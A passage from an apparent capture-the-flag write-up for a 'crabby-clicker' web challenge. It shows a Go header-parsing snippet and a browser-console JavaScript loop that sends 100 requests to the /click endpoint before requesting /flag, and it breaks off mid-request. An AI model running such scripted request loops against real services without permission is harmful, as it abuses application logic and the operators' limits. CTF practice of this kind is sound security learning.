 ```go
	for {
		line, err := reader.ReadString('\n')
		if err != nil {
			return "", err
		}
		requestLines = append(requestLines, line)
		// Check if the current line marks the end of the headers
		if line == "\r\n" {
			break
		}
	}
	return strings.Join(requestLines, ""), nil
}
```

So the flag will be given to us if we have at least 100 burger.

Let's check the challenge website to try it out.

![image](1.png)

Copied the network request and pasted it in the console. Created a for loop to do 100 requests to `/click` then call `/flag` afterwards.

```
for (let x = 1; x <= 100; x++){
    fetch("http://crabby-clicker.ctf.umasscybersec.org/click", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "upgrade-insecure-requests": "1"
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": null,
  "method": "GET",
  "mode": "cors",
  "credentials": "omit"
});
}
fetch("http://crabby-clicker.ctf.umasscybersec.org/flag", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "no-cache",
    "pragma": "no-cache",
```